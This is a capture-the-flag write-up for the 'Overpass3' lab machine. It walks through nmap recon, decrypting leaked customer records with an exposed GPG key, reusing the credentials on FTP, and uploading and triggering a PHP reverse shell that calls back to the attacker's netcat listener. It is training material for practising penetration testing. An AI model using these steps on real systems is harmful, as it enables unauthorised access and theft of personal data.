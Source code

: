# Overpass3

Ok so no instructions, nothing. Just three spaces for web/user/root flags.

Nice.


## Recon

we run the nmap scan and the gobuster parallely, while we explore the website.

`❯ nmap -script=vuln -sV -A -T4 10.10.16.10`

```
❯ nmap -script=vuln -sV -A -T4 -Pn 10.10.16.10
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-06 21:54 EST
Nmap scan report for 10.10.16.10
Host is up (0.52s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_sslv2-drown: 
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|   /backups/: Backup folder w/ directory listing
|_  /icons/: Potentially interesting folder w/ directory listing
|_http-server-header: Apache/2.4.37 (centos)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-trace: TRACE is enabled
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.52 seconds
```

`❯ gobuster dir -u 10.10.16.10 -w "/usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt" -x "html,php,txt"`

well this didn't workout well. But, from the nmap scan, we have two directories listed:

`/backups/ & /icons/`

`/icons/` did not have anything interesting, so lets look at `/backups/`. We have a zip file as `backup.zip`. Downloading and unzipping,

```
❯ unzip backup.zip
Archive:  backup.zip
 extracting: CustomerDetails.xlsx.gpg  
  inflating: priv.key 
```

```
❯ gpg --import priv.key
gpg: key C9AE71AB3180BC08: "Paradox <paradox@overpass.thm>" not changed
gpg: key C9AE71AB3180BC08: secret key imported
gpg: Total number processed: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:  secret keys unchanged: 1
```

```
❯ gpg CustomerDetails.xlsx.gpg
gpg: WARNING: no command supplied.  Trying to guess what you mean ...
gpg: encrypted with 2048-bit RSA key, ID 9E86A1C63FB96335, created 2020-11-08
      "Paradox <paradox@overpass.thm>"
```

Nice, we have all the customer details neatly bundled up for us. Now, lets convert the `xlsx` to `pdf`.

So we have some customer names and their username-password combinations and, some credit card information XD

lets try logging in using this from ftp. `paradox` username works! okay okay. lets try putting a file on the server using `put filename`. So that works too. Lets upload a php reverse shell and see how that works. Don't forget to change the `$ip` to your `tun0`.

Meanwhile, setup netcat to listen on the port specified. I did not change so its `1234` for me. 

`❯ nc -lnvp 1234`

So, lets execute the shell on there. How? just curl!

`❯ curl 10.10.16.10/shell.php`


```
listening on [any] 1234 ...
connect to [10.2.60.96] from (UNKNOWN) [10.10.16.10] 54190
Linux localhost.localdomain 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 03:45:42 up 58 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (855): Inappropriate ioctl for device
sh: no job control in this shell
```

works!

so now we need to escalate priviledges ...
